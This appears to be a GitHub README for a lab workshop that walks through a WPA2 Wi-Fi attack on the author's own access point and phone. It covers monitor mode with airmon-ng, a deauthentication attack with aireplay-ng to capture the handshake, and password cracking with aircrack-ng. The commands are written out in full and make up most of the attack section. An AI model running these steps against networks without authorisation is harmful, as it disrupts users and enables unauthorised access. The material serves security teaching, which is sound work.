



# Wi\-Fi Hacking Workshop

Summary: I will be gathering the Access Point MAC address and MAC address of my phone. I will then 
send 10 deauthentication packets which will cause my phone to disconnect and reauthenticate to the Access Point. We then capture the authentication prcoess save it locally and crack the password

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

### Adapter Setup

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

 * `sudo apt-get update  `

 * `sudo apt-get install linux\-headers\-$\(uname \-r\)  `

 * `git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)  `

 * `cd rtl8812au  `

 * `make `

 * `sudo insmod 8812au.ko `

 * `sudo cp 8812au.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless `

 * `sudo depmod `

 * `sudo apt-get install build-essential dkms `

 * `sudo make dkms_install `

 * `echo 8192eu | sudo tee -a /etc/modules `

### Adapter Setup

Add the Wireless adapter to VirtualBox

### Adapter Setup

 * `sudo airmon-ng check kill ` checks for conflicting processes and kills them. This however will result in loss of internet for the VM, can be solved by restarting.

 * `iwconfig   `shows the adapter names. In my case wlan0 is the wireless adapter.

 * `sudo airmon-ng start wlan 0 ` - Starts the wireless adapter in monitor mode.

### Discovering BSSID

 * `sudo airodump-ng -c 11 wlan0 ` - discovers access points on channel 11 using wlan0

BSSID is the access point MAC address of the router. In this case we are looking at the BSSID for CyberSec

### Discovering devices

The MAC address of 0C:8D:CA:A6:94:8D is my phone and that is where the deauthentication packets are getting sent.

### De-Auth Attack

 * `sudo airodump-ng -c 11 --bssid B0-95-75-5C-3B-94 -w psk wlan0 ` - this captures packets for the CyberSec accesspoint and saves it locally to a file named psk

 * `sudo aireplay-ng -0 10 -a B0:95:75:5C:3B:94 -c 0C:8D:CA:A6:93:8D wlan0 ` - This sends 10 deauthentication packets to my phone which will disconnect from the Access Point and automatically reconnect. The reauthenication process for the wpa2 handshake is captured and saved locally

### Cracking Password
Using the previous wpa2 handshake capture we can brute force the password using a passwordlist. I created one called passwordlist with the password of Password1 in it for lab demostration purpose. But Kali has default wordlists in the /usr/share/wordlists directory

 * `aircrack-ng -w passwordlist.txt psk-02.cap `- This is what is used to crack the password.

